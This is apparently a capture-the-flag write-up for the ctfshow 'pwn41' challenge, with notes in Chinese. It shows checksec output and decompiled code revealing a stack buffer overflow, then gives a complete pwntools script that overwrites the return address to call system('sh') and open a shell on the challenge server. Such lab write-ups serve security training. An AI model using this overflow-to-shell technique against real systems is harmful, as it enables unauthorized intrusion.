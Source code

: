 ```
tasike@tasike-VM:~/Desktop$ chmod 777 pwn41
```

```\
tasike@tasike-VM:~/Desktop$ file pwn41
pwn41: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=e3acbdde8a861c0955c7d26c8d2a37afae1d0af2, not stripped
```

```
tasike@tasike-VM:~/Desktop$ checksec pwn41
[*] '/home/tasike/Desktop/pwn41'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

32bit，堆栈不可执行

`ida`查看：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 2, 0);
  logo(&argc);
  ctfshow();
  puts("\nExit");
  return 0;
}
```

跟进`ctfshow`

```c
ssize_t ctfshow()
{
  char buf[14]; // [esp+6h] [ebp-12h] BYREF

  return read(0, buf, 0x32u);
}
```

> `buf`与`ebp`距离`0x12`

没有后门函数，但是有`_system`

```c
// attributes: thunk
int system(const char *command)
{
  return system(command);
}
```

`Fn +  Shift + F12`查看字符串，发现没有`/bin/sh`字符串

但是发现函数`useful`里有`sh`
```c
int useful()
{
  return printf("sh");
}
```

跟进`sh`

```
.rodata:080487BA 73 68 00                      aSh db 'sh',0
```



编写`attack41.py`

```python 
from pwn import *
context(os = 'Linux', arch = 'i386', log_level = 'debug')
r = remote('pwn.challenge.ctf.show', 28251)
system = 0x080483d0
sh = 0x080487BA
payload = cyclic(0x12 + 0x4) + p32(system) + p32(0) + p32(sh)
r.sendline(payload)
r.interactive()
```



